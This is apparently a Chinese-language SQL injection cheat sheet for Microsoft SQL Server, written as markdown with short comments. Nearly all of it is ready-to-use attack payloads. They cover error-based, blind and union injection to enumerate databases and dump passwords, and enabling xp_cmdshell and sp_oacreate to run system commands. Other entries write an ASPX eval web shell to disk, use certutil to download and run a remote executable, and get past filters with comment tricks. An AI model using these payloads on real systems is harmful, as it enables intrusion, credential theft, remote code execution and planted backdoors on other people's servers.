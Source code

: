 ## mssql 注入

查询数据库名称
```
select name from master.dbo.sysdatabases;
```
`master、model、msdb、tempdb`是mssql的默认数据库

查询用户权限
```
select IS_MEMBER('db_owner');
```
服务器角色包含：`sysadmin、serveradmin、securityadmin、processadmin、setupadmin、bulkadmin、diskadmin、dbcreator、public`
数据库角色包含：`db_owner、db_securityadmin、db_accessadmin、db_backupoperator、db_ddladmin、db_datawriter、db_datareader、db_denydatewriter、db_denydatareader`

查询数据库版本
```
select @@version;
```

查询当前数据库名
```
select db_name();
```

查询服务器名称
```
select HOST_NAME();
select @@SERVERNAME;
```

爆当前数据库
```
select * from xxx where id=1 and db_name()>0;
select * from xxx where id=1 and db_name()>'e';
```

查询数据库下的所有表
```
select * from INFORMATION_SCHEMA.TABLES;
```

爆表名，xx代表表名。`1=`可能出现数据类型转换错误，形成报错注入。或用对应类型的`'e'<`来判断名称
```
select * from xxx where id=1 and 1=(select top 1 name from sysobjects where xtype='u' and name='xx');
select * from xxx where id=1 and 'e'<(select top 1 name from sysobjects where xtype='u' and name='xx');

select * from xxx where id=1 and 'e'<(select top 1 TABLE_NAME from INFORMATION_SCHEMA.TABLES);
```

爆列名
```
select * from xxx where id=1 and 'b'>(select top 1 name from syscolumns where id=(select id from sysobjects where name='xx') and name<>'id');
```

爆数据
```
select * from xxx where id=1 and 1=(select top 1 password from xx);
select * from xxx where id=1 and 'C'<(select top 1 password from xx);
```

报错注入
```
select * from xxx where id=1 (select CAST(USER as int));
select * from xxx where id=1 (select convert(int,USER));
select * from xxx where id=1 select 1 union (select CAST(USER as int))
// 用declare定义变量并执行，还可对变量进行HEX和ASCII编码
select * from xxx where id=1;declare @a nvarchar(2000) set @a='select convert(int,@@version)' exec(@a);
// ASCII编码
select * from HrmResourceManager where id=1;declare @a nvarchar(2000) set @a=CHAR(115) + CHAR(101) + CHAR(108) + CHAR(101) + CHAR(99) + CHAR(116) + CHAR(32) + CHAR(99) + CHAR(111) + CHAR(110) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(116) + CHAR(40) + CHAR(105) + CHAR(110) + CHAR(116) + CHAR(44) + CHAR(64) + CHAR(64) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(115) + CHAR(105) + CHAR(111) + CHAR(110) + CHAR(41) exec(@a);
```

盲注
```
// 布尔盲注
select * from xxx where id=1 and ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1))>=109;
// 时间盲注
select * from xxx where id=1;if(ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)))>1 WAITFOR DELAY '0:0:5';
```

联合注入
```
// null的数量需要与xxx表的列数相同
select * from xxx where id=1 union select null,null,null;
```

列目录
```
execute master..xp_dirtree 'c:' // 列出C盘下的所有文件和目录
execute master..xp_dirtree 'c:',1  // 只列出C文件夹
```

写shell
```
// 创建文件夹表
select * from xxx where id=1;CREATE TABLE testtemp (dir varchar(8000),num int,num1 int);
// 将C盘的文件夹名称写入数据表
select * from xxx where id=1;insert into testtemp(dir,num,num1) execute master..xp_dirtree 'C:',1,1;
// 创建cmd执行表
select * from xxx where id=1;CREATE TABLE cmdtemp (dir varchar(8000));
// 将cmd搜索结果写入表
select * from xxx where id=1;insert into cmdtemp(dir) exec master..xp_cmdshell 'for /r c:\ %i in (lululu.jsp) do @echo %i';
// 指定目录写文件
select * from xxx where id=1;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > c:\\lululu.aspx' ;
```

xp_cmdshell不存在的解决方法
```
// 如果master..xp_cmdshell未开启,用如下命令开启
EXEC sp_configure 'show advanced options', 1;  //允许更改参数
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;  //开启xp_cmdshell
RECONFIGURE;

// 如果master..xp_cmdshell被删除，恢复sp_oacreate
EXEC sp_configure 'show advanced options', 1;  //允许更改参数
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures',1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'show advanced options',0;
RECONFIGURE WITH OVERRIDE;
```

sp_oacreate执行命令
```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c calc.exe'

declare @o int
exec sp_oacreate 'Shell.Application', @o out
exec sp_oamethod @o, 'ShellExecute',null, 'cmd.exe','cmd /c net user >c:\test.txt','c:\windows\system32','','1';
```

差异备份
```
//这一步很可能出现拒绝访问错误，说明没有文件夹操作权限。只有给予该文件夹读写权限才能执行
backup database xxxx to disk='c:\Users\xxxxx'
backup database xxxx to disk='c:\Users\xxxxx' WITH DIFFERENTIAL,FORMAT;--

// 日志备份
alter database ecology set RECOVERY FULL; //先将数据库恢复模式设为完整模式
backup log ecology to disk='C:\Users\xxx\log.bak' with init
```

站库分离(网站和数据库分别在不同的内网服务器上)场景下getshell
```
exec master.dbo.xp_cmdshell 'cd c:\Users\xxxxx & certutil -urlcache -split -f http://ip:port/file.exe'; //从远程下载恶意文件并运行，除certutil外还可用vbs、bitsadmin、powershell、ftp
exec master.dbo.xp_cmdshell 'cd c:\Users\xxxxx & file.exe';
```

其他的一些进阶操作，参考：https://github.com/aleenzz/MSSQL_SQL_BYPASS_WIKI/blob/master/2.2.MSSQL%E6%8F%90%E6%9D%83%E4%B8%8E%E7%AB%99%E5%BA%93%E5%88%86%E7%A6%BB.md

特殊符号
```
注释: /* */  --
空白符号: /**/
加号: %2b （查询多条数据）
```

一些绕过
```
// 表名转换为[表名]
select top 1 name from sysobjects -> select top 1 name from[sysobjects] 

// 注释
union select -> union/*select*/
union select -> union/*!1*/select--*/

// 注释+换行(%0a) , %20空格
select * from xxx where id=1--/*%0aif (select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--%20*/
select * from xxx where id=1--/*%0aexec xp_create_subdir 'c:\text'--%20*/
```

mssql对象类型
```
AF = 聚合函数 (CLR)
C = CHECK 约束
D = 默认或默认约束
F = FOREIGN KEY 约束
L = 对数
FN = 标量函数
FS = 装配 (CLR) 标量函数
FT = 装配(CLR) 表值函数
IF = 内联表函数
IT = 内部表
P = 存储过程
PC = 程序集 (CLR) 存储过程
PK = 主键约束（类型为 K）
RF = 复制过滤器存储过程
S = 系统表
SN = 同义词
SO = 序列
SQ = 服务队列
TA = 装配 (CLR) DML 触发器
TF = 表函数
TR = SQL DML 触发器
TT = 表类型
U = 用户表
UQ = UNIQUE 约束（类型为 K）
V = 视图
X = 扩展存储过程
```

